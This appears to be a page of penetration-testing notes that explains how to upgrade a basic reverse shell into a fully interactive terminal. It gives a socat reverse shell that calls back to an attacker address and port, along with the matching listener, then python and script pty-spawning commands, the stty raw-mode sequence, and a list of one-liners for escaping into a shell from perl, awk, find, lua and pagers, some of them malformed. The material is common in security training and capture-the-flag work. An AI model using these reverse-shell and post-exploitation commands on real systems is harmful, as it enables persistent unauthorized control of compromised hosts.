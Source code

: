 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Upgrade

## TL;DR

| Term | Meaning        |
| ---- | -------------- |
| tty  | teletype       |
| pty  | pseudoterminal |

### Why

Ability to CTRL+C, tab completion, clear screen, up and down arrows, text editing, etc.

## Process

### Socat

An upgraded shell can be spawn right away if `socat` is on the target host. Set up a listener from the attack host.

```bash
socat file:$(tty),raw,echo=0 tcp-listen:1337
```

On the target host.

```bash
# check if socat exists
which socat
# reverse shell command
socat exec:'bash -li',pty,stderr tcp:<ip>:1337
```

### Script/Python

Check if Python3/Script is installed on the target.

{% tabs %}
{% tab title="Script" %}
```bash
which script
```
{% endtab %}

{% tab title="Python3" %}
```bash
which python3
```
{% endtab %}
{% endtabs %}

Spawn bash with Script or Python3.

{% tabs %}
{% tab title="Script" %}
```bash
script /dev/null -c /bin/bash
```
{% endtab %}

{% tab title="Python3" %}
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

Send tty to the backgroup (`CTRL+Z`) and check terminal's type and dimensions.

```bash
echo $TERM && stty size
```

Disable echo, send I/O straight through, and bring process to foreground.

```bash
stty raw -echo; fg
```

Press enter, reset terminal, and input the terminal type (`xterm`/`screen`).

```bash
reset
```

Match tty's dimensions to the hosts.

```bash
stty rows 51 cols 209
```

Set the `TERM` variable to the terminal's type.

```bash
export TERM=xterm
```

<figure><img src="../../../.gitbook/assets/shell_stab_py.png" alt=""><figcaption></figcaption></figure>

```bash
# the whole process
which script
script /dev/null -c /bin/bash
^Z
echo $TERM && stty size
stty raw -echo; fg
reset
stty rows 51 cols 209
export TERM=xterm
```

## Alternatives

Other ways to spawn a bash/sh shell.

```bash
# echo
echo 'os.system('/bin/bash')'
# sh
/bin/sh -i
# bash
/bin/bash -i
# perl
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
# ruby
ruby: exec "/bin/sh"
# awk
awk 'BEGIN {system("/bin/sh")}'
# find
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# lua
lua: os.execute('/bin/sh')
# type more, less, or man command with a file then try
'! /bin/sh'
'!/bin/sh'
'!bash'
```

{% tabs %}
{% tab title="0xdf" %}
{% embed url="https://www.youtube.com/watch?v=DqE6DxqJg8Q" %}
{% endtab %}

{% tab title="NullByte" %}
{% embed url="https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/" %}
{% endtab %}
{% endtabs %}
